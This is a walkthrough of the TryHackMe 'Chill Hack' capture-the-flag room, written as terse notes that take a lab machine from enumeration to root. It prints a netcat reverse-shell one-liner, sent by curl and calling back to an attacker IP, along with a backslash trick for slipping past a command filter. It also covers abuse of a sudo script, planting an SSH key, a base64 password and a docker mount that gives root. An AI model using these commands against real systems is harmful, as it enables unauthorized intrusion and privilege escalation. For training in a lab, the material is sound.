




# Chill Hack (THM)

- https://tryhackme.com/room/chillhack
- March 6, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous login allowed
2. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache httpd 2.4.29 ((Ubuntu))
4. 1027/tcp IIS
5. 2038/tcp objectmanager

### FTP

- login with anonymous user and get note.txt

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

### HTTP

- brute force with ffuf
- `secret` directory found
- command execution can be done

## User Access

- listen nc at local machine and execute get shell

```
$ nc -nlvp 4242
$ curl http://$IP/secret/ -X POST -d "command=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f"

```

- but it is restricted
- try to bypass by experimenting with

```
which python3
which nc
ls -la
```

- and found that adding `\` bypass
- get reverse shell by adding random \ in above command

```
r\m -f /tmp/f;mkfi\fo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n\c 10.11.8.57 4242 >/tmp/f
```

```sh
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

```

```sh
$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- run msg input as /bin/bash

```sh
$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

anything
/bin/bash

whoami
apaar
python3 -c "import pty; pty.spawn('/bin/bash');"
apaar@ubuntu:/tmp$
```

- to get ssh shell,
  - create ssh-keygen in local machine
  - copy contents from id_rsa.pub
  - paste as /home/apaar/.ssh/authorized_keys
- can enter as apaar user with id_rsa

- there is also local running processes



- local webservice is running at port 9001
- use ssh port forwarding to our local machine

```sh
$ ssh -L 9001:127.0.0.1:9001 apaar@$IP -i id_rsa
```

- we can access the webservice at our machine `localhost:9001`



- use classical sql injection and redirect to hacker.php page



- get the hacker-with-laptop picture and analyse it.
- with stegovertias, one zip file came out



- extract with password and source_code.php file extracted.

- in source_code.php, base64 encoded text `IWQwbnRLbjB3bVlwQHNzdzByZA==` which may be `anurodh` password
- change into anurodh user

## Root Access

```sh
anurodh@ubuntu:/tmp$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

# anurodh can run docker
# in gtfobins, docker shell
anurodh@ubuntu:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
$ whoami
root

```

---
